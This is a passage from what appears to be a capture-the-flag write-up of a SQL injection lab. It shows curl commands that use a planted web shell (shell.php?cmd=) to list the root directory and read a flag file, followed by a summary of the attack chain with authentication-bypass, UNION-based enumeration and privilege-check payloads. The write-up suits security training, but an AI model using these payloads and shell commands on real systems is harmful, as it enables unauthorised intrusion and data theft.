 #### Phase 6: Flag Capture

**Step 11: Search for Flag**
```bash
# List root directory contents (clean output)
curl -w "\n" -s http://TARGET_IP:PORT/dashboard/shell.php?cmd=ls+/ | sed -e '1,2d'

# Expected output:
bin
boot  
dev
etc
flag_cae1dadcd174.txt  ← TARGET FOUND!
home
lib
...
```

**Step 12: Read Flag**
```bash
# Read flag content (clean output)
curl -w "\n" -s http://TARGET_IP:PORT/dashboard/shell.php?cmd=cat+/flag_cae1dadcd174.txt | sed -e '1,2d'

# Result: [flag_content]
# Analysis: ✅ Flag captured successfully!
```

### Complete Attack Chain Summary

**1. Authentication Bypass:**
```sql
admin' OR '1' = '1' -- -
→ Access Employee Dashboard
```

**2. SQL Injection Discovery:**
```sql
' → SQL error → Injection confirmed
```

**3. UNION Exploitation:**
```sql
' UNION SELECT 1,2,3,4,5 -- -
→ 5 columns, column 1 hidden
```

**4. Privilege Verification:**
```sql
' UNION SELECT 1,user(),3,4,5 -- -                    # root@localhost
' UNION SELECT 1,grantee,privilege_type,is_grantable,5 FROM information_schema.user_privileges -- -  # FILE privilege
' UNION SELECT 1,variable_name,variable_value,4,5 FROM information_schema.global_variables WHERE variable_name="secure_file_priv" -- -  # No restrictions
```
